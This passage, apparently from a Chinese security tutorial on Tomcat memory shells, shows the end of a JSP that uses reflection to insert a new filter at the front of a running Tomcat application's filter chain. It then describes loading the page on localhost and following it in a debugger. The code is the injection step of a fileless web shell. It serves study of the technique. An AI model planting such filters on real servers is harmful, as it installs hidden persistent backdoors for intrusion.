 ```bash

        // 将filterMap添加至filterMaps(第一位)
        standardContext.addFilterMapBefore(filterMap);

        // 创建ApplicationFilterConfig对象
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

        filterConfigs.put(myFiltername, filterConfig);

    }
    System.out.println("Success!");
} catch (Exception e) {
    e.printStackTrace();
}
%>
```

访问[http://localhost:8090/Tomcat\_memshell\_Web\_exploded/filterMemshell.jsp](http://localhost:8090/Tomcat_memshell_Web_exploded/filterMemshell.jsp)  
执行完第一行得到 ApplicationContextFacade 对象  
[![](assets/1701606655-7281c2a0b36b2f07cf4f4d7738112520.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231111135052-45e245da-8056-1.png)  
执行到最后  